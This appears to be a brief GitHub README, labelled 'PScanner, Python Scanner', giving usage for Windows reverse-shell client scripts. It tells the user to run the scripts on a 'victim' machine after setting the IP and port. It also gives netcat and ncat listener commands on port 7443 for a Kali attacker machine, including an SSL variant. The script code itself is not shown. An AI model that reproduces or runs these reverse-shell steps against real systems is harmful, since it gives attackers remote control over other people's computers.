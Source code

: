 # PScanner
Python Scanner


usage
victim
python revshell_client_win.py # change the IP and PORT
Kali
nc -lvnp 7443



victim
python revshell_client_win_ssl.py # change the IP and PORT
Kali
ncat --ssl -lvp 7443 
![image](https://user-images.githubusercontent.com/26183588/211539028-d1a362db-4ed9-45aa-9b22-4668173c1719.png)
